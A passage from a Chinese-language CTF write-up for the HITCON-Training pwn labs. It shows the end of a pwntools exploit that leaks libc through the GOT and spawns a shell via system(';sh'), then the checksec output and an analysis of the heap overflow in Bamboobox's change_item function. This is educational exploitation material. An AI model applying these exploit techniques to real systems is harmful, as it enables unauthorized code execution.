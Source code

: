 ```python

payload = p32(print_) + p32(got)
add(payload)

print_note(0)

addr = u32(p.recvuntil("\xf7")[-4:])
libc.address = addr - libc.symbols['__libc_start_main']
system = libc.symbols['system']

del_note(2)
payload = p32(system) + ";sh\x00"
add(payload)
print_note(0)
p.interactive()	
```

## Lab11——Bamboobox ##

### 防护 ###

该题终于是一道64位的题了，仍旧开启了canary和nx，没有开启pie。

```
liwc@ubuntu:~/pwn/HITCON-Training/LAB/lab11$ checksec bamboobox
[*] '/home/liwc/pwn/HITCON-Training/LAB/lab11/bamboobox'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

### 分析 ###

仍旧是标准菜单题，该题有五个功能，即增删改查和退出。

该题漏洞位于change_item函数中：

虽然在申请chunk的时候是根据输入的size进行malloc操作，但并没有存储size，所以在change的时候未对size进行校验，而是根据此次指定的长度对堆进行写入，也就是存在一个潜在的堆任意写漏洞。

```c++
unsigned __int64 change_item()
{
  int v0; // ST08_4
  int v2; // [rsp+4h] [rbp-2Ch]
  char buf; // [rsp+10h] [rbp-20h]
  char nptr; // [rsp+20h] [rbp-10h]
  unsigned __int64 v5; // [rsp+28h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  if ( num )
  {
    printf("Please enter the index of item:");
    read(0, &buf, 8uLL);
    v2 = atoi(&buf);
    if ( *(_QWORD *)&itemlist[4 * v2 + 2] )
    {
      printf("Please enter the length of item name:", &buf);
      read(0, &nptr, 8uLL);
      v0 = atoi(&nptr);
      printf("Please enter the new name of the item:", &nptr);
```